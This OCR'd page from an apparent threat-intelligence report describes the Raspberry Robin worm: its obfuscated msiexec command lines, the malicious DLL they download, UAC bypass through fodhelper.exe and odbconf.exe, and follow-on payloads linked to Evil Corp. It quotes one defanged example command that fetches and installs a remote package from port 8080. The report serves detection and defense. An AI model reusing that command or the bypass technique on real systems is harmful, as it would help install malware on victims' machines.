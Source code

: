 • mixed\-case syntax

• 

• 

• 

• 

a short domain containing only a few characters 

communication over port 8080

a string of random alphanumeric characters potentially used as a token

the victim hostname and/or username. 

Here is an example of what the command line might look like:

MsIEXeC /qUieT AjHodmv\=Yn iXLspV\=rSbH /fV “HtTp://Fnx\[.]WF:8080/BKCFL/
qnP6C9z/lfVeygFfdAE/\=”

Diving into the DLL 

If the outbound network connection is successful, msiexec.exe 
downloads and installs a randomly named malicious DLL, typically in C:\\
ProgramData\\. The DLL name is two\-to\-eight 
random characters, followed by a three \-character file extension. Extensions 
we’ve observed include .tmp, .etl, .log, and others. The Raspberry Robin DLL, 
also known as Roshtyak, can be executed by several different processes in an 
attempt to elevate privileges and bypass User Access Control (UAC), based on 
which type of evasion is most likely to be successful. Red Canary has observed 
fodhelper.exe and odbconf.exe used to execute the malicious DLL.

Follow\-on payloads 

The DLL has a wide variety of functions, including additional C2 activity, task 
creation for persistence, and the capability to download and execute additional 

49

payloads. In July 2022, Microsoft reported seeing SocGholish as a follow\-on 
payload, observing activity resembling the group they track as DEV\-0243, which 
is associated with the cybercriminal group known as Evil Corp. Red Canary also 
directly observed Raspberry Robin downloading a malicious SocGholish .js 
binary. This development significantly heightened the risk of a Raspberry Robin 
infection, making it a potential ransomware precursor based on historic DEV\-
0243 and SocGholish activity.

 In October 2022, Microsoft shared additional Raspberry Robin observations, 
most notably that they saw Raspberry Robin used in compromises with follow\-on 
activity including BumbleBee, Cobalt Strike, and IcedID. Microsoft additionally 
reported that Raspberry Robin was observed in post\-compromise activity 
attributed to DEV\-0950, a group that overlaps with activity tracked as TA505\.

TAKE ACTION

Visit the Raspberry Robin threat page for detection opportunities and atomic 
tests to validate your coverage for this threat. 
